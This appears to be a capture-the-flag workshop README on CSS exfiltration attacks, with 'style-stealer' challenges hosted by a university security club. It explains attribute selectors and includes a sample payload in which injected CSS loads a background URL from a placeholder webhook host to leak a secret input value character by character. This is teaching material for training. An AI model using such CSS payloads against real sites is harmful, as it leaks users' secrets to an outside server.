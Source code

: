 # Web 1: CSS Exfiltration Attack

### What is a CSS Exfiltration Attack?

A CSS Exfiltration Attack occurs when an attacker is able to inject CSS into a web page. While some elements on a page may be restricted from direct access, cleverly crafted CSS can be used to extract sensitive data. This is possible because certain CSS selectors and functions can indirectly leak information by triggering observable behaviors, such as generating HTTP requests. In some cases, CSS injection may also lead to JavaScript execution. Today, we are specifically focusing on the data exfiltration aspect of such attacks.

### What is a Webhook?

A Webhook is a mechanism that allows data to be sent to a unique URL when certain events occur. One way to explore this is by visiting [webhook.site](http://webhook.site), a service that provides you with your own unique URL. This URL is private to you, and any visits to it are logged to it. You can also send information along with each visit, such as `webhook/whatever_you_want`.

### How to perform a CSS Exfiltration Attack?
In our challenge `Style-Stealer`, we assume that a secret is stored in an element such as `<input value="secret">`. The idea is to then inject something like `[value="a"] { background: url(webhook/a); }`, which targets an HTML element with a value attribute equal to "a". If such an element exists, the browser will attempt to load a background image from `webhook/a`, effectively making a request to your webhook URL. Although there's no actual image, the request itself logs the data access. Make sure to replace `"webhook"` with your own unique webhook URL.

To expand this attack, rather than guessing exact values, you can use partial attribute selectors:

`[value^="a"]`
- `^` means first character
    - matches all HTML elements that start with "a"

`[value$="a"]`
- `$` means last character
    - matches all HTML elements that end with "a"

These allow broader probing of values without brute-forcing every possibility. For convenience and scale, it’s recommended to write a Python script with for loop(s) to automatically generate these.

## Challenges

The following challenges in increasing difficulty are deployed to [platform.acmcyber.com](https://platform.acmcyber.com) to practice the concepts covered.

- `style-stealer-1`
- `style-stealer-2`
- `style-stealer-3`
- `style-stealer-4`
- `style-stealer-5`
- `style-stealer-6`
- `style-stealer-100`

### Solving and Submitting

1. Go to the [style-stealer site](https://style-stealer.acmcyber.com/)
2. Generate your script (heh good luck).
3. Paste your script into the big CSS box.
4. Put your desired level into the small Level (1-6, 100)
5. Submit and Test (ask us if you have questions)
    - On the blank page, click "View style".
    - See if the letter(s) that are displayed match the letter(s) logged on your webhook.
6. Copy the URL and DM it to `r2uwu2` on Discord.
7. Once he opens your page, you should get a visit to your webhook with the letter(s) logged there.
8. If the letters match, he will give you the flag :D. If they don't ...

## Resources

- [webhook.site](http://webhook.site)
- [CSS Attribute Selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
- [Blind CSS Data Exfiltration](https://medium.com/@angryovalegg/blind-css-data-exfiltration-8dd6614236b2)
- [Testing for CSS Injection](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/11-Client-side_Testing/05-Testing_for_CSS_Injection)



